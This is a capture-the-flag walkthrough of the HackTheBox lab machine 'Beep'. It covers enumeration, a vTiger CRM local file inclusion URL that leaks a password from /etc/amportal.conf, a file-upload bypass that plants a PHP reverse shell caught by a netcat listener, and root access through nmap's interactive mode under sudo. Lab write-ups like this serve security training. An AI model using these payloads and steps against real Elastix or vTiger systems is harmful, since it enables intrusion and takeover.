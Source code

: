 # Beep

![image](https://user-images.githubusercontent.com/10210108/79369615-3f3e9080-7f1f-11ea-998c-bb9c44346f31.png)

## Overview

Beep is a CentOS box running [Elastix](https://www.elastix.org/) which according to wikipedia "...is an unified communications server software that brings together IP PBX, email, IM, faxing and collaboration functionality. It has a Web interface and includes capabilities such as a call center software with predictive dialing." Elastix is vulnerable to LFI which exposed a password for vTiger CRM. Once logged in a php file was uploaded by bypassing upload restrictions resulting in a reverse shell as user astrisk. The asterisk user is allowed to run nmap as root and was exploited to get a root shell.

## Enumeration

**Software**

* CentOS 5.6 (final)
* Apache 2.2.3
* Elastix 2.5
* FreePBX 2.8.1.4 
* FreePBX 2.5
* fpdf 1.6
* vtigert CRM 5.1.0

**Open Ports**

```
nmap -vv 10.10.10.7 -Pn -sT -A -p- 10.10.10.7 -oN /mnt/data/boxes/beep/_full_tcp_nmap.txt
```

* 22/tcp - OpenSSH 4.3 (protocol 2.0)                                                                                                         
* 25/tcp - Postfix smtpd                                                                                                                      
* 80/tcp - Apache httpd 2.2.3                                                                                                                 
* 110/tcp - pop3d 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4                                                                                       
* 111/tcp - rpcbind (RPC #100000)                                                                                                                    
* 143/tcp - Cyrus imapd 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4                
* 443/tcp - https
* 878/tcp - rpcbind (RPC #100024)                                                                                                                    
* 993/tcp - Cyrus imapd                                                                                                                        
* 995/tcp - Cyrus pop3d
* 3306/tcp - MySQL (unauthorized)
* 4190/tcp - Cyrus timsieved 2.3.7-Invoca-RPM-2.3.7-7.el5_6.4 (included w/cyrus imap)
* 4445/tcp - upnotifyp?
* 4559/tcp - HylaFAX 4.3.10
* 5038/tcp - Asterisk Call Manager 1.1
* 10000/tcp - MiniServ 1.570 (Webmin httpd)

**Directory/File Brute Force**

```
gobuster dir -k --wildcard -s "200,204,301,307,401,403" -u https://10.10.10.7 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x php,html -t 40
```

![image](https://user-images.githubusercontent.com/10210108/79673486-2eed1680-81a8-11ea-88a2-93e87948f368.png)

* /images - various image files
* /index.php - Elastic (main page)
* /help - A bunch of help pages 
* /register.php - redirects to the main Elastix page
* /themes - listing of themes for Elastix
* /modules - modules folder 
* /mail - Roundcube webmail logon page
* /static - .htm files, fax, instant messaging, softphones
* /admin - FreePBX 2.8.1.4 administrator site (prompted for username/password)
* /lang - language files
* /config.php - redirects to the main Elastix page
* /var - mostly blank directory listing
* /panel - blank page / source shows Flash Administrator Panel 
* /libs - directory listing. Lots of .php files
  * /libs/fpdf/histo.htm - fpdf v1.6
* /recordings - FreePBX 2.5 logon page
* /configs - a few php files
* /vtigercrm - vTiger CRM 5.1.0 logon page


## Steps (User)

Gobuster generated a lot of results. To avoid going into a rabbit hole I browsed to each and took notes about any software and files and folders were present.

Starting with Elastix, I ran a search against searchsploit and found a handful of vulnerabilities. 

![image](https://user-images.githubusercontent.com/10210108/80032945-ec824d00-84b9-11ea-8694-7a3578e30497.png)

I looked through each of the vulnerabilities and decided to go with 37637 as it referenced vTiger CRM which was interesting because it showed up in the gobuster results.

![image](https://user-images.githubusercontent.com/10210108/80033048-15a2dd80-84ba-11ea-8e13-655c3ac88762.png)

```
searchsploit -x 37637
```

I was able to confirm that the website was vulnerable to LFI by copying the URL, updating it to reflect the target's IP, and plugging it into my web browser. 

https://10.10.10.7/vtigercrm/graph.php?current_language=../../../../../../../..//etc/amportal.conf%00&module=Accounts&action

> Note: viewing the source allows for a more readable format

![image](https://user-images.githubusercontent.com/10210108/79900883-f1bd9a00-83dc-11ea-9cd1-b836d2916206.png)

```
admin/jEhdIekWmdjE
```

Using the password found in the LFI, I was able to log into /vtigercrm.

![image](https://user-images.githubusercontent.com/10210108/79901114-52e56d80-83dd-11ea-9289-f59ebf5de554.png)

Doing some research on vTiger CRM I determined that it was possible to get [RCE](https://www.rapid7.com/db/modules/exploit/multi/http/vtiger_logo_upload_exec) by abusing the company logo upload functionality. By using burp to bypass upload restrictions I was able to upload a php file and create a reverse shell. 

I started a netcat listener (nc -lvnp 4200) and copied a php reverse shell to my working directory and added ;.jpg

```
cp ~/tools/webshells/php/php-reverse-shell.php 'rshell.php;.jpg' 
```

The following steps were required to upload rshell.php;.jpg:

* open Burp and enable the proxy in your web browser
* On the vtiger website click vTiger click **settings | settings | company details | edit**
* click **browse | select rshell.php;.jpg | save**
* Intercept with burp and rename file to rshell.php in two places | click forward

![image](https://user-images.githubusercontent.com/10210108/80013493-f77ab480-849c-11ea-8604-b88f84fad274.png)

![image](https://user-images.githubusercontent.com/10210108/80016566-47f41100-84a1-11ea-9a61-c93ccd4ebce7.png)

I confirmed that the file was uploaded and then executed rshell.php

![image](https://user-images.githubusercontent.com/10210108/80034331-3f5d0400-84bc-11ea-862e-5e034d1e7b5a.png)

```
https://10.10.10.7/vtigercrm/test/logo/rshell.php
```

I received a callback and now had a shell as user "asterisk"

![image](https://user-images.githubusercontent.com/10210108/80016639-60fcc200-84a1-11ea-91aa-583b1ff6a154.png)

## Steps (root/system)

One of the first things I do is run sudo -l which lists the allowed commands for the user. The output of this command showed that asterisk could run nmap as root

> [sudo](https://linux.die.net/man/8/sudo) allows a permitted user to execute a command as the superuser or another user, as specified by the security policy.

![image](https://user-images.githubusercontent.com/10210108/80014707-abc90a80-849e-11ea-8656-438f861e34f7.png)

Looking up nmap on GTFObins showed that I can run a shell from within nmap if run with --interactive. Running this command gave me a shell as root.

> [GTFOBins](https://gtfobins.github.io) is a good resource to check for privilege escalation exploits

![image](https://user-images.githubusercontent.com/10210108/80014853-e8950180-849e-11ea-89e7-6459ef362037.png)


